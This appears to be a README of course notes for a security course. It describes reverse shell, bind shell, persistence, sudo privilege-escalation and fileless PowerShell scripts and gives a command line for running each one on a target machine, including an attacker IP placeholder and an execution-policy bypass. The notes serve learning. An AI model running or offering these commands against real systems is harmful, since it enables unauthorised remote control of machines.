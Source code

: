 ## InfoSEC Course Notes: Execution, Persistence, Privilege Escalation and Evasion - Week 2

This repository contains my notes for Week 2 of the InfoSEC course on Coursera. The course covers various topics related to cybersecurity, including execution, persistence, privilege escalation, and evasion.

### Contents

The `Execution, persistence, privilege escalation and evasion/Week 2` directory contains the following files:

- `README.md`: this file, providing an overview of the contents of the directory
- `slides.pdf`: a PDF file containing the slides used in the course lectures
- `notes.md`: my personal notes on the topics covered in Week 2

### Code Examples

In addition to the lecture slides and my notes, the course also includes several code examples. The following is a brief description of each code file:

- `reverse_shell.py`: a Python script that sets up a reverse shell on a target machine
- `bind_shell.py`: a Python script that sets up a bind shell on a target machine
- `persistence.py`: a Python script that demonstrates how to achieve persistence on a target machine
- `privilege_escalation.sh`: a Bash script that demonstrates a privilege escalation attack
- `fileless_malware.ps1`: a PowerShell script that demonstrates a fileless malware attack

Each code file is accompanied by a brief description of its purpose and usage in Markdown format.
#### `reverse_shell.py`

This Python script sets up a reverse shell on a target machine, allowing an attacker to gain remote access to the machine. The script opens a listener on the attacker's machine and connects to it from the target machine, giving the attacker control over the target machine.

##### Requirements

- Python 2.7 or 3.x

##### Installation

No installation is required. Simply download the `reverse_shell.py` file to your machine.

##### Usage

To use the script, run the following command on the target machine:

```
python reverse_shell.py <attacker_ip> <attacker_port>
```

Replace `<attacker_ip>` and `<attacker_port>` with the IP address and port number of the attacker's machine.

#### `bind_shell.py`

This Python script sets up a bind shell on a target machine, allowing an attacker to gain remote access to the machine. The script opens a listener on the target machine and waits for an incoming connection from the attacker's machine, giving the attacker control over the target machine.

##### Requirements

- Python 2.7 or 3.x

##### Installation

No installation is required. Simply download the `bind_shell.py` file to your machine.

##### Usage

To use the script, run the following command on the target machine:

```
python bind_shell.py <attacker_ip> <attacker_port>
```

Replace `<attacker_ip>` and `<attacker_port>` with the IP address and port number of the attacker's machine.

#### `persistence.py`

This Python script demonstrates how to achieve persistence on a target machine, allowing an attacker to maintain control over the machine even after a reboot. The script adds a new entry to the Windows registry that runs the script every time the machine starts up, ensuring that the attacker's backdoor is always active.

##### Requirements

- Python 2.7 or 3.x
- Windows operating system

##### Installation

No installation is required. Simply download the `persistence.py` file to your Windows machine.

##### Usage

To use the script, run the following command on the target machine:

```
python persistence.py
```

The script will add a new entry to the Windows registry that runs the script every time the machine starts up, ensuring that the attacker's backdoor is always active.

#### `privilege_escalation.sh`

This Bash script demonstrates a privilege escalation attack, in which an attacker gains elevated privileges on a target machine. The script exploits a vulnerability in the `sudo` command to gain root access.

##### Requirements

- Bash shell
- `sudo` command

##### Installation

No installation is required. Simply download the `privilege_escalation.sh` file to your machine.

##### Usage

To use the script, run the following command on the target machine:

```
bash privilege_escalation.sh
```

The script will exploit the `sudo` vulnerability to gain root access.

#### `fileless_malware.ps1`

This PowerShell script demonstrates a fileless malware attack, in which an attacker gains access to a target machine without leaving any traces on the file system. The script uses the Windows Management Instrumentation (WMI) service to execute malicious code in memory.

##### Requirements

- Windows operating system
- PowerShell

##### Installation

No installation is required. Simply download the `fileless_malware.ps1` file to your Windows machine.

##### Usage

To use the script, run the following command on the target machine:

```
powershell -ExecutionPolicy Bypass -File fileless_malware.ps1
```

The script will use the WMI service to execute malicious code in memory, without leaving any traces on the file system.
